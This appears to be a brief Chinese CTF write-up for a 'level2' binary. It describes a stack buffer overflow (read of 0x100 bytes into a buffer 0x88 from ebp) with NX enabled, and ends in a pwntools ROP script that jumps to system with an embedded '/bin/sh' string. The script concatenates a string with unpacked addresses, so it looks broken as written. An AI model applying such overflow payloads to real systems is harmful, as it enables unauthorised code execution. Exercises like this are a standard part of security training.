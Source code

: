 首先查安全机制和架构

![image-20201102204244975](https://static.hack1s.fun/images/2021/02/06/image-20201102204244975.png)

运行一下效果就是输入一个字符串

![image-20201102204313538](https://static.hack1s.fun/images/2021/02/06/image-20201102204313538.png)

main函数的代码

![image-20201102204414050](https://static.hack1s.fun/images/2021/02/06/image-20201102204414050.png)

vulnerable 函数中的代码

![image-20201102204442374](https://static.hack1s.fun/images/2021/02/06/image-20201102204442374.png)

read了0x100，但是距离ebp只有0x88

由于开启了nx，应该也是用rop来做了

直接溢出，rop跳到system

![image-20201102204549168](https://static.hack1s.fun/images/2021/02/06/image-20201102204549168.png)

查找字符串还发现很贴心的给了`/bin/sh`

虽然这个字符串并没有调用的地方

```python
from pwn import *

io  = process('./level2')
elf = ELF('./level2')

payload = 'a'*0x88 + 'b'*0x4 + elf.sym['system'] + elf.sym['main'] + elf.sym['hint']

io.readline()
io.sendline(payload)

io.interactive()
```



